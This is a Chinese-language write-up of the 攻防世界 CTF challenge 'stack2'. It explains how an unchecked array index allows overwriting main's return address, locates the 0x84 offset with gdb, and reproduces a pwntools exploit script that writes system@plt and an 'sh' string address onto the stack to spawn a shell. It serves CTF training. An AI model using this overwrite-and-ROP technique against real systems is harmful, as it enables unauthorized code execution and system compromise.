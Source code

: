 # 攻防世界: stack2

## **[目标]**
栈溢出 覆盖返回地址

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**


![](./pic/1.png)

发现没有对`v5`的大小进行限制，说明我们可以对栈上的数据进行任意访问。

![](./pic/2.png)

发现一个`hackhere`的函数，我们可以将`main`函数的返回地址改成`hackhere`函数的地址。

- 确定数组首地址 与 返回地址 之间的偏移。

在0x080486D0下断点，查看寄存器edx的值 得到数组首地址。

![](./pic/4.png)


在main函数结尾ret下一个断点，选择 5、exit 执行到这里查看栈顶的地址,得到返回地址所在的栈地址。

![](./pic/3.png)

结果：

![](./pic/5.png)

![](./pic/6.png)

由上可知偏移为 0x84。

但是出题人在搭建docker环境时未注意，环境中只给了sh，在发现问题后考虑到题目依然可解就未再次更改环境。题目依然是简单的栈溢出，只不过不能直接跳转到getshell，需要简单的ROP一下。

贴一下2019师傅的exp：

```
from pwn import *
 
g_local=True
context.log_level='debug'
 
if g_local:
	sh = process('./stack2')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote('',)
 
def write_byte(off, val):
	sh.send("3\n")
	sh.recvuntil("which number to change:\n")
	sh.send(str(off) + "\n")
	sh.recvuntil("new number:\n")
	sh.send(str(val) + "\n")
	sh.recvuntil("5. exit\n")
 
def write_dword(off, val):
	write_byte(off, val & 0xff)
	write_byte(off + 1, (val >> 8) & 0xff)
	write_byte(off + 2, (val >> 16) & 0xff)
	write_byte(off + 3, (val >> 24) & 0xff)
 
def exit():
	sh.send("5\n")
	sh.interactive()
 
sh.recvuntil("How many numbers you have:\n")
sh.send("1\n")
sh.recvuntil("Give me your numbers\n")
sh.send("1\n")
sh.recvuntil("5. exit\n")
 
write_dword(0x84, 0x8048450)
write_dword(0x8C, 0x8048980 + 7)
exit()
```


## **[参考阅读]**

